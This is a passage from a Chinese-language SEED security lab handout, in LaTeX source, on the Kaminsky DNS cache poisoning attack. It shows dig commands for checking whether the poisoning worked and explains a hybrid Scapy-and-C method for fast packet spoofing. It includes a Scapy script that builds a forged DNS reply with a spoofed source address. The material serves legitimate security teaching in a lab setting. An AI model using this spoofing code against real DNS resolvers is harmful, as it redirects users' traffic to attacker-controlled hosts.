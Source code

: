 为了验证攻击是否成功，在用户主机上运行以下两条\texttt{dig}命令。在两个响应中，
\texttt{www.example.com}的IP地址应该相同，并且响应应该是在攻击主机的区域文件中配置的内容。


\begin{lstlisting}
// 询问本地DNS服务器来进行查询
$ dig www.example.com

// 直接请求attacker32名称服务器
$ dig @ns.attacker32.com www.example.com
\end{lstlisting}
 
请在实验报告中给出你的观察结果(截图)，并解释你认为攻击成功的原因。
特别的，当你第一次运行\texttt{dig}命令时，请使用Wireshark来捕获网络流量，
并指出\texttt{dig}命令触发了哪些数据包。根据数据包追踪来证明你的攻击成功了。





\section{指南} 

为了实现Kaminsky攻击，我们使用Scapy进行数据包欺骗。不幸的是，Python的速度太慢了，Python每秒
生成的数据包太少以至于很难攻击成功。最好的情况是使用C程序，然而这对于许多学生来说颇具挑战，
因为用C构造DNS数据包并非易事。我们开发了一种混合方法，并在课堂上进行了实验。通过这种方法，
可以大大减少学生在编码上花费的时间，因此他们可以将更多的时间用于关注实际攻击的本身。


这个想法是同时利用Scapy和C的优势：Scapy在构建DNS数据包方便比C更方便，但是C速度更快。
因此我们使用Scapy构建伪造的DNS数据包，并将它保存到文件中，接着我们将数据包加载到C程序中。
尽管在Kaminsky攻击过程中，我们需要发送许多不同的DNS数据包，但除了少数字段外，这些数据包几乎相同。
我们可以将Scapy生成的数据包作为基础，找到需要修改地方的偏移量(如传输ID字段)，并直接进行修改。
这比在C中创建整个DNS数据包要简单很多。
进行修改之后，我们使用原始的套接字发送这些数据包。有关这种混合方法的详细信息，请参见SEED书~\cite{seedbook}中
``数据包嗅探和伪造''一章。以下的Scapy程序会创建一个简单的DNS响应数据包，并将其保存在文件中。


\begin{lstlisting}[caption={\texttt{generate\_dns\_reply.py}}]
#!/usr/bin/python3
from scapy.all import *

# 构造DNS头和内容
name   = 'twysw.example.com'
Qdsec  = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.1.2.2', ttl=259200)
dns    = DNS(id=0xAAAA, aa=1, rd=0, qr=1, 
             qdcount=1, ancount=1, nscount=0, arcount=0, 
             qd=Qdsec, an=Anssec)

# 构造IP、UDP头以及完整的数据包
ip  = IP(dst='10.0.2.7', src='1.2.3.4', chksum=0)
udp = UDP(dport=33333, sport=53, chksum=0)
pkt = ip/udp/dns

# 保存数据包到文件
with open('ip.bin', 'wb') as f:
  f.write(bytes(pkt))
\end{lstlisting}

